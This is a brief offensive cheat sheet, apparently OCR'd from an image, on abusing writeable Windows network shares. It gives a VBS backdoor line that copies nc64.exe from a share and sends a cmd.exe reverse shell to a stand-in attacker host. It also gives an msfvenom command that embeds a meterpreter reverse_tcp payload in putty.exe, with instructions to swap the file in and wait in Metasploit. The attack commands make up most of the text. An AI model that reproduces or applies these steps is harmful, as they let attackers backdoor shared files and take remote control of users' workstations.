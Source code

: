 # ABUSING WRITEABLE SHARES

### Find shortcut to a script or executable file hosted on a network share.

# BACKDOORING .vbs SCRIPTS

#### CreateObject("WScript.Shell").

#### Run "cmd.exe /c copy /Y \\TARGET_IP\MYSHARE\nc64.exe %tmp & %tmp\nc64.exe -e cmd.exe ATTACK_IP PORT", O, True

### Copies binary from the share to the user's workstation %tmp directory and send a reverse shell back to attacker whenever a user opens the shared VBS script.

# BACKDOORING .exe FILES

#### 1) Download binary from share

#### 2) msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=ATTACK_IP lport=PORT -b "\x00" -f exe -o puttyX.exe

#### 3) Replace file and wait for connections with exploit/multi/handler (metasploit)
